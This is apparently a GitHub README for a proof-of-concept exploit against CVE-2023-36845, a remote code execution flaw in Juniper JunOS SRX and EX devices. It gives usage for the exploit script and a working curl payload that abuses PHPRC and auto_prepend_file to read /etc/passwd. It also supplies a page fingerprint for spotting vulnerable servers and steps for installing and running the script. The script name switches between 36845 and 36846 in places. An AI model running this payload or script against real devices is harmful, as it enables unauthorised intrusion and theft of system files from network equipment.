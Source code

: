 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com
     
# Vulnerability Details

Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:
All versions prior to 20.4R3-S9;
21.1 version 21.1R1 and later versions;
21.2 versions prior to 21.2R3-S7;
21.3 versions prior to 21.3R3-S5;
21.4 versions prior to 21.4R3-S5;
22.1 versions prior to 22.1R3-S4;
22.2 versions prior to 22.2R3-S2;
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;
22.4 versions prior to 22.4R2-S1, 22.4R3;
23.2 versions prior to 23.2R1-S1, 23.2R2.

# Install Requirements:

$ pip install -r requirements.txt


# Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h

$ python3 exploit_CVE-2023-36845.py -u http://example.com
